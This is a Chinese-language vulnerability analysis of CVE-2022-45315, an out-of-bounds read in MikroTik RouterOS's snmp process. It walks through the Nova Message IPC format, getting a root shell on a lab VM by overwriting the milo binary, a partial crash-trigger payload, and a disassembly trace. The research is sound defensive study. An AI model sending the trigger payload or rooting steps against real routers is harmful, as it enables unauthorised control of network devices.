

# CVE-2022-45315 RouterOS SNMP 越界读漏洞研究 - 先知社区

CVE-2022-45315 RouterOS SNMP 越界读漏洞研究

* * *

这个漏洞可能导致认证后 RCE。

> \[!error\] Hyper-V 的影响
> 
> 在一些开启了 Hyper-V 的电脑上，RouterOS 可能无法在 VMWare Workstation 中模拟运行或启动非常缓慢，如果遇到无法运行的情况，请酌情考虑关闭 Hyper-V，如果能成功运行但是启动缓慢，可以及时拍摄快照。

## 漏洞描述

> Mikrotik RouterOs before stable v7.6 was discovered to contain an out-of-bounds read in the snmp process. This vulnerability allows attackers to execute arbitrary code via a crafted packet.

目标二进制为 `/nova/bin/snmp`。

## 前置知识

RouterOS 有一些交互方式，这里我们可能会用到 JS 交互和 Winbox 交互。

JS 交互本质上就是通过 http 协议走 80 端口，RouterOS 中的 www 进程负责解析用户请求并发给指定的进程 。

Winbox 交互是通过 8291 端口进行的，RouterOS 中的 mproxy 进程负责接收请求并解析，发送给指定的进程。

这些协议的加密细节在此不做讨论，感兴趣的读者可以自行研究。

### Nova Message

Nova Message 是 RouterOS 中的自定义消息格式，它被用来进程之间的通信。Nova Message 的格式是 Type Key-Value Pairs，这里举个栗子：

```plain
{bff0005:1, uff0006:0x1, uff0007:0xfe000d, s1:'admin', Uff0001:[13,7]}
```

#### Type

在上面的例子中，每一个 Key 的首字母是类型（Type），剩下的部分才是真正的 Key。Nova Message 中有若干种类型（Type）：

```plain
b: bool
u: 32bit integer
q: 64bit integer
s: string
r: raw
a: IPv6
m: message
B: bool array
U: 32bit integer array
Q: 64bit integer array
S: string array
R: raw array
A: IPv6 array
M: message array
```

#### Key

根据上面的例子，Key 中的低 24 位才是真正的 Key。而这低 24 位也有自己的说法：

```plain
key = 0xGGVVVV, G=group, V=value
```

其中 `GG` 代表的是命令的组，在 RouterOS 中，`GG` 可能的值包括：

```plain
0xFF - SYS
0xFE - STD
0xFD - LOCAL
0x01 - NET
0x02 - MODULER
0x03 - SERMGR
0x04 - NOTIFY
0x05 - RADV
0x06 - SYSTEM
0x07 - PING
0x08 - UNDO
0x09 - LOG
0x0A - MEPTY
0x0B - PPPMAN
0x0C - RADIUS
0x0D - HOTPLUG
0x0E - BRIDGE
0x0F - DISKD
0x10 - DUDE
0x11 - CONSOLE
0x12 - CERM
0x2C - ROUTE
```

以 Group 为 0xFF(SYS) 为例，不同的值也有不同的含义：

```plain
SYS_TO: 0xFF0001
SYS_FROM: 0xFF0002
SYS_TYPE: 0xFF0003
SYS_STATUS: 0xFF0004
SYS_REPLYEXP: 0xFF0005
SYS_REQID: 0xFF0006
SYS_CMD: 0xFF0007
SYS_ERRNO: 0xFF0008
SYS_ERRSTR: 0xFF0009
SYS_USER: 0xFF000A
SYS_POLICY: 0xFF000B;用于表示当前用户的权限
SYS_CTRL: 0xFF000D
SYS_CTRL_ARG: 0xFF000F
SYS_USER_ID: 0xFF0010
SYS_NOTIFYCMD: 0xFF0011
SYS_ORIGINATOR: 0xFF0012
SYS_RADDR6: 0xFF0013
SYS_DREASON: 0xFF0016
```

对于 `SYS_CMD`，我们可以设置不同的值完成不同的功能：

```plain
0xfe0000 - NOP
0xfe0001 - getPolicies
0xfe0002 - getObj
0xfe0003 - setObj
0xfe0004 - getAll
0xfe0005 - addObj
0xfe0006 - removeObj
0xfe0007 - moveObj
0xfe0008 - setForm
0xfe000b - notify
0xfe000c - shutdown
0xfe000d - get
0xfe000e - set
0xfe000f - start
0xfe0010 - poll
0xfe0011 - cancel
0xfe0012 - subscribe
0xfe0013 - unsubscribe
0xfe0014 - disconnected
0xfe0015 - getCount
```

### 进程关系

在 RouterOS 中，init 只负责启动 loader，由 loader 启动和管理其他进程。

```plain
init-+-busybox-+-ash---pstree
     |         `-ash
     |-loader-+-agent
     |        |-arpd
     |        |-bluetooth
     |        |-bridge2
     |        |-btest
     |        |-cerm-worker
     |        |-console
     |        |-discover
...  ...  ...
     |        |-snmp
...  ...  ...
```

#### RouterOS Namespaces

那么 loader 具体是怎样管理进程呢？RouterOS 将子进程的信息写在了 `/nova/etc/loader/system.x3` 中，它可以通过 [Loader X3 Parser](https://github.com/tenable/routeros/tree/master/msg_re/parse_x3) 这个工具解析。一些子进程的信息如下所示：

```plain
./x3_parse -f ../example/system_6_43_45.x3 
/nova/bin/log -> 3
/nova/bin/radius -> 5
/nova/bin/moduler -> 6
/nova/bin/user -> 13
...
/nova/bin/snmp -> 34
...
```

## 环境搭建

我使用的环境为 MikroTik RouterOS 7.1.1。

### 常用指令

我们先配置一下环境，下面列出了一些参考指令：

```plain
# 查看网卡
interface print
# 配置动态 IP
ip dhcp-client add interface=ether1 disable=no
# 查看网络信息
ip dhcp-client print detail
# 查看授权
system licens print
# 关机
system shutdown
# 重启
system reboot
# 重置系统
system reset
```

### 开启 SNMP

RouterOS 中的 SNMP 不是默认开启的，我们需要手动开启，下面提供了一些参考指令，也可以参考[官方文档](https://wiki.mikrotik.com/wiki/Manual:SNMP)：

```plain
# 开启 SNMP
snmp set enabled=yes
# 查看当前配置的 SNMP 团体信息
snmp community/print
# 更改团体名字
snmp community set name=<name> <id>
# 添加新的团体
snmp community add name=VegetaRocks
# 设置联系方式
snmp set contact="Contact info"
# 设置地址
snmp set location="Location"
# 查看 SNMP 配置信息
snmp print
```

### 获取 root shell

这里列举了一些获取 root shell 的方法。

| Method | Virtual Machine | Real Device |
| --- | --- | --- |
| cleaner\_wrasse [1](#fn-1) | √   | √   |
| netboot jailbreak [2](#fn-2) | ×   | √   |
| FOISted [3](#fn-3) | √   | √   |
| container\_mount [4](#fn-4) | √   | √   |
| execute\_milo [5](#fn-5) | √   | ×   |
| memory patch \[^2\] [6](#fn-6) | √   | ×   |

本文使用了 execute\_milo 获取 root，它来自 [tenable/routeros](https://github.com/tenable/routeros)。

我们首先下载并安装必要的包：

```plain
git clone https://github.com/tenable/routeros.git
sudo apt install libboost-all-dev cmake libboost-dev
```

我们通过里面的 [Execute Milo](https://github.com/tenable/routeros/tree/master/poc/execute_milo) 工具获取 root shell，它利用了 `/flash/bin` 下的 milo 文件可被覆盖且启动时不会做完整性校验的 feature。

接下来我们用 FTP 将一些必要文件传到 RouterOS 上。FTP 传输文件支持[四种文件类型](https://en.wikipedia.org/wiki/File_Transfer_Protocol#Data_types)传输，这里我只使用了 binary mode。我写了一个小工具帮助上传/下载文件：

```plain
from ftplib import FTP
import sys
import argparse
import os


def get_bin(ftp, ftpFileName: str, localFileName=""):
    if localFileName == "":
        localFileName = os.path.basename(ftpFileName)
    ftp.retrbinary("RETR {}".format(ftpFileName),
                   open(localFileName, "wb").write)


def put_bin(ftp, localFileName: str, ftpFileName=""):
    if ftpFileName == "":
        ftpFileName = os.path.basename(localFileName)
    print("putting {} to {}".format(localFileName, ftpFileName))
    with open(localFileName, "rb") as f:
        ftp.storbinary("STOR {}".format(ftpFileName), f)


all_files = []


"""
python mftp.py [--ip remote_ip] [-o operation] [-f file [file ...]] [-r renamed_file [renamed_file ...]]
"""


def main():
    parser = argparse.ArgumentParser(
        description='Simple FTP script for RouterOS.')
    parser.add_argument("--ip",
                        action="store",
                        dest="ip",
                        help="Remote IP")
    parser.add_argument("-u", "--user",
                        action="store",
                        dest="user",
                        help="Username")
    parser.add_argument("-p", "--password",
                        action="store",
                        dest="password",
                        help="Password")
    parser.add_argument("-o", "--op",
                        action="store",
                        dest="op",
                        help="Operation")
    parser.add_argument("-f", "--file",
                        nargs='+',
                        dest="file",
                        help="To transferred filename.")
    parser.add_argument("-r", "--rename",
                        nargs='+',
                        dest="rename",
                        help="Renamed filename.")

    args = parser.parse_args()
    ip = args.ip
    op = args.op
    file_list = args.file
    rename_list = args.rename
    if op not in ["get", "put"]:
        print(parser.print_help())
        return
    if rename_list and len(file_list) != len(rename_list):
        print("Transfer file number not equal to renamed file number")
        return

    user = args.user if args.user else "admin"
    password = args.password if args.password else ""
    ftp = FTP()
    ftp.connect(ip, 21)
    ftp.login(user, password)

    if op == "put":
        if rename_list:
            for i in range(len(file_list)):
                put_bin(ftp, file_list[i], rename_list[i])
        else:
            for f in file_list:
                put_bin(ftp, f)
        return

    if op == "get":
        if rename_list:
            for i in range(len(file_list)):
                get_bin(ftp, file_list[i], rename_list[i])
        else:
            for f in file_list:
                get_bin(ftp, f)
        return

    ftp.quit()


if __name__ == '__main__':
    main()
```

上传 `vm_bins` 目录下的文件：

```plain
python mftp.py -u <uname> -p <pwd> --ip <ip> -o put -f vm_bins/busybox vm_bins/milo vm_bins/gdb
```

好，在上传文件之后，关闭虚拟机，然后随便用一个 Linux 的 Live CD 附加到虚拟机上，启动到虚拟机中。（PS：由于这一步需要修改磁盘文件，在实体机上无法做到修改，我想这就是为什么这种方法只能用于虚拟机的原因吧。）

> \[!warning\] 内存分配
> 
> 可能由于虚拟机内存不足不能启动 LiveCD，如果遇到无法启动的情况，请考虑增大分配给虚拟机的内存。

我们要做的事情很简单：FTP 上传后的文件没有可执行权限，因此我们在 LiveCD 中给它们加上可执行权限，再将 `/flash/bin` 中的 milo 覆盖即可：

```plain
sudo su
cd rw/disk/
chmod +x busybox
chmod +x gdb
chmod 755 milo
mv milo ../../bin/milo
ln -s /rw/disk/busybox ash
exit
```

接下来我们编译 [Execute Milo](https://github.com/tenable/routeros/tree/master/poc/execute_milo) 中的文件（参考 [Readme 中的第六步](https://github.com/tenable/routeros/tree/master/poc/execute_milo#step-6---build-and-execute-execute_milo)）我们最终会获得一个 `execute_milo` 文件，同时重启到 RouterOS 中。

接下来执行我们获取到的二进制。

```plain
./execute_milo -i <ip> -p <port> -u <username> --password <password>
```

> \[!bug\] WinboxSession
> 
> 在较新版本的 RouterOS 上（版本可能 >= 6.44.6），由于 Winbox 协议的变化，milo 不应该使用 WinboxSession 登录而应该使用 JSProxySession。同时，使用的端口也应当修改为 80 端口。

最后 telnet 到 1270 端口即可获得 shell：

```plain
telnet <target ip> 1270
```

## 漏洞触发

### 上传 gdb/gdbserver

[hugsy/gdb-static](https://github.com/hugsy/gdb-static) 中有一些编译好的静态 gdb 和 gdbserver，各取所需即可。

```plain
wget https://github.com/hugsy/gdb-static/raw/master/gdbserver-7.10.1-x64
python mftp.py -u <uname> -p <pwd> --ip <ip> -o put -f gdbserver-7.10.1-x64 -r gdbserver
```

### 获取目标程序

目标程序为 `/nova/bin/snmp`，我们将它复制到 `/rw/disk` 目录下面然后用上面的小脚本获取即可。

```plain
# in RouterOS root shell
cp /nova/bin/snmp /rw/disk

# in host shell
python mftp.py -u <uname> -p <pwd> --ip <ip> -o get -f snmp
```

### 调试目标

```plain
./gdbserver :12345 --attach $(pidof snmp)
```

### 触发漏洞

这里不提供完整 PoC，只给出触发漏洞的关键部分（这一部分也可以在 [pocs\_slides/slides/POC2022-MikroTik\_RouterOS\_Security-The\_Forgotten\_IPC\_Message.pdf](https://github.com/cq674350529/pocs_slides/blob/master/slides/POC2022-MikroTik_RouterOS_Security-The_Forgotten_IPC_Message.pdf) 中找到）：

```plain
char payload[513];
    memset(payload, 'a', sizeof(char) * 512);
    WinboxMessage msg;
    msg.set_to(34, 0x1);
    msg.set_command(0xfe0005);
    msg.add_u32(0x14, 0xfffffffe);
    msg.add_string(0x5, payload);
    msg.set_request_id(1);
```

这个 payload 的 JSON 构造为：

```plain
{u14:0xfffffffe,uff0006:1,uff0007:0xfe0005,s5:'a'*512,Uff0001:[34,1]}
```

根据前置知识，我们可以了解到：

1.  它要访问的是 `/bin/snmp` 的第一个 handler；
2.  它希望添加对象；
3.  它定义了一个 u32 数字 0xfffffffe；
4.  它定义了一个字符串 payload；
5.  它设置了 `SYS_REQID` 为 1。

可以触发崩溃：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230807222355-0a642ee2-352e-1.png)

RouterOS 内部也提供了一个日志工具，可以查看崩溃信息，位于 `/flash/rw/logs/`。

## 漏洞分析

### 第一层栈帧

先跟踪到 0x77f1fbb3，根据 vmmap，可以发现它位于 `/lib/libuc++.so` 中：

```plain
0x77f18000 0x77f29000 r-xp    11000 0      /lib/libuc++.so
0x77f29000 0x77f2a000 r-xp     1000 10000  /lib/libuc++.so
0x77f2a000 0x77f2b000 rwxp     1000 11000  /lib/libuc++.so
```

之后求得这个位置的偏移为 0x7bb3，我们进入到函数 `sub_7BA4@<eax>` 中：

```plain
.text:00007BA4                               ; int __usercall sub_7BA4@<eax>(int@<eax>, int@<edx>, int@<ecx>)
.text:00007BA4                               sub_7BA4 proc near                      ; CODE XREF: 
... ...
.text:00007BA4                               var_4= dword ptr -4
.text:00007BA4
.text:00007BA4 55                            push    ebp
.text:00007BA5 89 E5                         mov     ebp, esp
.text:00007BA7 53                            push    ebx
.text:00007BA8 83 EC 08                      sub     esp, 8
.text:00007BAB 51                            push    ecx
.text:00007BAC 52                            push    edx
.text:00007BAD FF 70 18                      push    dword ptr [eax+18h]
.text:00007BB0 FF 50 10                      call    dword ptr [eax+10h]
.text:00007BB0
.text:00007BB3 8B 5D FC                      mov     ebx, [ebp+var_4]
.text:00007BB6 C9                            leave
.text:00007BB7 C3                            retn
.text:00007BB7
.text:00007BB7                               sub_7BA4 endp
```

可以看到是在执行到 0x00007BB0 这个位置时触发了崩溃，调用的地址值为 `[eax+10h]`。我们往前跟一下 eax。

### 第二层栈帧

再往前就是 0x77f227b9，求得它的偏移为：0xa7b9，位于函数 `tree_base::insert_unique` 中：

```plain
_DWORD *__userpurge tree_base::insert_unique@<eax>(_DWORD *a1, _DWORD *a2, _DWORD *a3, int a4, void (__cdecl *a5)(int))
{
... ...
  {
    if ( (unsigned __int8)sub_7BA4((int)a2, a2[3] + a2[5], a4) )
    {
... ...
    }
```

可以看到 `a2` 是被调用的地址，它是 `insert_unique` 的第二个参数

### 第三层栈帧

再往前追，我们可以追到 `Item::regenerateKeys` 函数：

```plain
int __cdecl Item::regenerateKeys(Item *this)
{
... ...

  v1 = 28 * *((_DWORD *)this + 6);
  v12 = (Item *)((char *)this + 48);
  v11 = (char *)&unk_80859C0 + v1;
... ...
    tree_base::insert_unique(&v13, v11, v7, &v18, map_node_move_constr<string,vector<unsigned char>>);
... ...
```

在这里，`insert_unique` 函数的第二个参数是 `v11`，再往前追可以追到上面的三条赋值语句，我们调试看一下这里面的赋值情况：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230807222417-1746fffe-352e-1.png)

可以看到，在执行到

```plain
v1 = 28 * *((_DWORD *)this + 6);
```

时，我们发现 `*((_DWORD *)this + 6)` 正是我们输入的 `u14:0xfffffffe`，这里有我们可以控制的输入！

### 第四层栈帧

此时我们再往前追一下，可以跟到函数 `Item::setConfig` 中：

```plain
int __cdecl Item::setConfig(Item *this, const nv::message *message)
{
  ... ...
  *((_DWORD *)this + 6) = nv::message::get<nv::u32_id>(message, 20);
  ... ...
```

这条语句会设置 `*((_DWORD *)this + 6)` 的值：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230807222432-2058481e-352e-1.png)

### 分析总结

由此，这个漏洞的触发链已经非常清晰：

`/nova/bin/snmp` 侧：

*   在 `Item::setConfig` 函数中通过 `*((_DWORD *)this + 6)` 通过输入控制该位置的值；
*   在 `Item::regenerateKeys` 函数中通过偏移控制函数地址。

`/lib/libuc++.so` 侧：

*   进入函数 `tree_base::insert_unique` 中，满足条件后调用 `sub_7BA4@<eax>` 触发漏洞。

## 漏洞利用

在上面的漏洞分析中，我们可以通过输入间接地控制执行流，理论上我们可以做到任意地址执行，这是多么令人惊喜啊！

但很可惜的是，我们也就只能控制执行流了，其他的参数都不可控，因此也许只有比较极限的 ROP 才能完成攻击。一种可能的利用思路是找到一个合适的 ROPChain，它可以布置寄存器指向堆上我们的输入地址，做栈迁移后实现完整的攻击。由于 RouterOS 是通过 RPC 通信的，进程中有很多函数操作 Nova Message，因此我觉得大概率是有满足条件的 ROP chain 的。

限于时间关系本文就不在利用上展开深入研究了，感兴趣的读者可以根据上文的思路自行寻找实现完整的利用。

## 总结

虽然这是 RouterOS 上 SNMP 进程的漏洞，但它并不是一个 SNMP 协议漏洞或者 SNMP 协议实现导致的漏洞，而是 RouterOS 自定义的协议不正确导致的漏洞。借助此文我简单介绍了 RouterOS 协议的相关知识，以及 CVE-2022-45315 的漏洞成因，希望可以帮到大家。

## 参考资料

*   [CVE-2022-45315 Detail (nvd.nist.gov)](https://nvd.nist.gov/vuln/detail/CVE-2022-45315)
*   [cq674350529/pocs\_slides (github.com)](https://github.com/cq674350529/pocs_slides)
*   [tenable/routeros (github.com)](https://github.com/tenable/routeros)
*   [Pulling MikroTik into the Limelight (margin.re)](https://margin.re/2022/06/pulling-mikrotik-into-the-limelight/)
*   [MarginResearch/resources (github.com)](https://github.com/MarginResearch/resources)

* * *

1.  [https://github.com/tenable/routeros/tree/master/cleaner\_wrasse](https://github.com/tenable/routeros/tree/master/cleaner_wrasse)[↩](#fnref-1)
    
2.  [http://ufo.stealien.com/2022-06-01/how-to-root-your-routeros-v7-virtual-machine](http://ufo.stealien.com/2022-06-01/how-to-root-your-routeros-v7-virtual-machine)[↩](#fnref-2)
    
3.  [https://margin.re/blog/pulling-mikrotik-into-the-limelight.aspx](https://margin.re/blog/pulling-mikrotik-into-the-limelight.aspx)[↩](#fnref-3)
    
4.  [https://nns.ee/blog/2022/08/05/routeros-container-rce.html](https://nns.ee/blog/2022/08/05/routeros-container-rce.html)[↩](#fnref-4)
    
5.  [https://github.com/tenable/routeros/tree/master/poc/execute\_milo](https://github.com/tenable/routeros/tree/master/poc/execute_milo)[↩](#fnref-5)
    
6.  [https://github.com/pedrib/PoC/blob/master/tools/mikrotik\_jailbreak.py](https://github.com/pedrib/PoC/blob/master/tools/mikrotik_jailbreak.py)[↩](#fnref-6)
